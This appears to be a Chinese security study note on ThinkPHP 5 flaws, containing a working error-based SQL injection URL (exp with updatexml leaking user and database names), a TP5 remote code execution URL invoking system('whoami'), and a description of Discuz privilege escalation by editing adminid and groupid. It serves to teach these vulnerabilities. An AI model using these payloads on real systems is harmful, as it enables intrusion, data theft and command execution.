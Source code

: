 ### 内置代码写法

#### 例子：不合规的代码写法—TP5—代码分析

详细见：https://blog.csdn.net/m0_74930529/article/details/143527573

### 框架版本安全

#### 例子 1：写法内置安全绕过—TP5—SQL注入

**报错型SQL注入**

参考文章：https://www.cnblogs.com/Yhck/p/15808056.html

当用户输入的数据以`exp`开头时，会直接拼接到SQL语句中，未经过滤，`insert()`和`update()`方法会调用存在问题的`parseData`函数。

url拼接：

```http
?username[0]=exp&username[1]=updatexml(1,concat('~',user(),'~'),1)   会回显用户&主机名
?username[0]=exp&username[1]=updatexml(1,concat('~',database(),'~'),1)   会回显数据库名
```

| 片段                         | 含义                                                         |
| ---------------------------- | ------------------------------------------------------------ |
| **updatexml(1, …, 1)**       | MySQL 的内置函数，本来用来修改 XML 文档；**只要第二个参数不是合法 XPath，就会报错并把参数内容回显给客户端** → 典型的“报错注入”手法。 |
| **concat('~', user(), '~')** | 把当前数据库用户名拼成一串，例如 `~root@localhost~`。        |
| 整个函数                     | 因为 XPath 非法，MySQL 会抛错并回显 `~root@localhost~`，攻击者就能在报错页面里直接看到用户名，完成一次“带外数据提取”。 |

#### 例子 2：内置版本安全漏洞—TP5—代码执行

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/27-07.png" style="zoom:80%;" />

在ip后面输入`/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`，可以得到：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/27-08.png" style="zoom:80%;" />

## 逻辑越权（类似于linux中的用户等级）

如下图，假设管理员的uid=1，普通会员的uid=100。当使用select * from users where username=‘admin’来取出uid结果时，如果uid=1，则展示管理员页面。

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/27-09.png" style="zoom:80%;" />

而在逻辑越权时，经常需要修改用户id编号，这个id编号也就类似于uid。当把uid=100修改成了uid=1，也就使普通用户变成了管理员，即实现了权限地跨越。

当使用discuz注册一个用户时，可以看到有adminid和groupid，系统就是以这两个来区分管理员和普通用户。当修改adminid=1、groupid=1后，就可以实现逻辑越权，从普通用户变成管理员。

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/27-10.png" style="zoom:80%;" />